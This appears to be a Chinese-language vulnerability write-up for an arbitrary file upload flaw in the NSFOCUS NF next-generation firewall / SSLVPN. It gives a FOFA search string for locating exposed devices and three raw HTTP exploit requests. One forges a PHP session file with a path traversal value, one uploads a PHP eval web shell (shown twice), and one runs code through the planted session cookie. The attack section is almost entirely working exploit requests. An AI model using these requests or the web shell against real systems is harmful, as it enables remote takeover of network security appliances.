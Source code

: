 # 绿盟 NF下一代防火墙 bugsInfo 任意文件上传漏洞

    # 绿盟 NF下一代防火墙 任意文件上传漏洞

## 漏洞描述

绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行

## 漏洞影响

<a-checkbox checked>绿盟 SSLVPN </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NSFOCUS-下一代防火墙"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1658884417477-a47362c4-646d-464e-a094-9e36a53165d6.png)

出现漏洞的端口为 8081 

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```

![image-20230812085235711](../../../.vuepress/public/img/image-20230812085235711.png)

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![image-20230812085349551](../../../.vuepress/public/img/image-20230812085349551.png)



```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](../../../.vuepress/public/img/1684385511983-b0ced531-df95-4ca9-a34f-f0704fe7e98d.png)

```python
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```
